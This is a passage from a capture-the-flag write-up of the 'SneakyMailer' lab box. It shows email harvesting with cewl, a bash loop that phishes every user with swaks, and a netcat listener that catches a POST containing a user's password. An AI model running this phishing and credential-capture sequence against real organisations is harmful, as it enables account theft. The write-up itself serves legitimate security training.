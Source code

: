 Nothing interesting in the `dev` domain either.

### SMTP 

After going through all the mail ports I couldn't find anything useful. After some clues from the forums, I understood that the box is simulating a real world scenario of phishing. 

We can send mail with a `http://<ip>` link in the body to all users and see if we get any response. 

First scrap all email addresses using `cewl`

```bash
kali@kali:~/Desktop/htb/sneaky$ cewl -e --email_file emails http://sneakycorp.htb/team.php
CeWL 5.4.7 (Exclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

Now lets send mails to all users using a `bash` one liner. Start a `nc` listener on port `80`.

```bash
kali@kali:~/Desktop/htb/sneaky$ while read p; do echo Trying user $p; swaks --to $p  --body ./data ; done < emails
Trying user airisatou@sneakymailer.htb
=== Trying sneakymailer.htb:25...
=== Connected to sneakymailer.htb.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO kali
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<kali@kali>
<-  250 2.1.0 Ok
-----------------------------
```

And we get a connection for `paulbyrd@sneakymailer.htb` which includes some credentials.

```bash
kali@kali:~/Desktop/htb/sneaky$ sudo nc -lvp 80
[sudo] password for kali:
listening on [any] 80 ...
connect to [10.10.14.29] from sneakycorp.htb [10.10.10.197] 42874
POST / HTTP/1.1
Host: 10.10.14.29
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt^C
```
